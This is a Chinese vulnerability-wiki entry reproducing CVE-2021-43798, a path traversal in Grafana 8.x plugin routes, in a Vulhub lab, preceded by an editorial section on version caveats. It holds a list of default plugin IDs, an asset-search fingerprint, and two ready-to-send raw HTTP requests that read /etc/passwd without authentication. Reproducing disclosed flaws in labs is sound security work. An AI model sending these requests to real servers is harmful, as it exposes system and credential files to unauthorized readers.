


## 核对与使用边界

- 明确更正：原 version 字段抽入命令、源码、路径、配置或普通叙述，不是版本号，已清空机器版本字段并原样保留于 version_notes；实际版本/分支条件见本节逐篇记录，未从代码猜造版本。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：影响节笼统8.x，实验8.2.6；官方引用标题已给8.3.1/8.2.7/8.1.8/8.0.7固定点

代码与实验材料：无认证raw HTTP，明确已安装plugin ID；两个插件变体及图片

来源证据范围：Grafana官方安全发布、Vulhub、披露推文及源码tag

- **事实待核（1）**：结构化版本字段抽错内容；依据：frontmatter version为docker compose up -d。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：全8.x范围包含已修版本；依据：没有把引用中的分支固定版本转为影响矩阵；未提示客户端路径规范化或服务进程读权限。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Grafana 8.x 插件模块目录穿越漏洞 CVE-2021-43798

## 漏洞描述

Grafana 是一个开源的度量分析与可视化套件。在 2021 年 12 月，推特用户@j0v 发表了他发现的一个 0day，攻击者利用这个漏洞可以读取服务器上的任意文件。

参考链接：

- https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/
- https://twitter.com/hacker_/status/1467880514489044993
- https://nosec.org/home/detail/4914.html
- https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw
- https://codeload.github.com/grafana/grafana/zip/refs/tags/v8.3.0 source code

## 漏洞影响

```
Grafana 8.x
```

## 网络测绘

```
app="Grafana_Labs-公司产品"
```

## 环境搭建

Vulhub 执行如下命令启动一个 Grafana 8.2.6 版本服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:3000` 即可查看登录页面，但是这个漏洞是无需用户权限的。


## 漏洞复现

这个漏洞出现在插件模块中，这个模块支持用户访问插件目录下的文件，但因为没有对文件名进行限制，攻击者可以利用 `../` 的方式穿越目录，读取到服务器上的任意文件。

利用这个漏洞前，我们需要先获取到一个已安装的插件 id，比如常见的有：

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

再发送如下数据包，读取任意文件：

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```




也可以将其中的 `alertlist` 换成其他合法的插件 id，例如 `graph`：

```
GET /public/plugins/graph/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
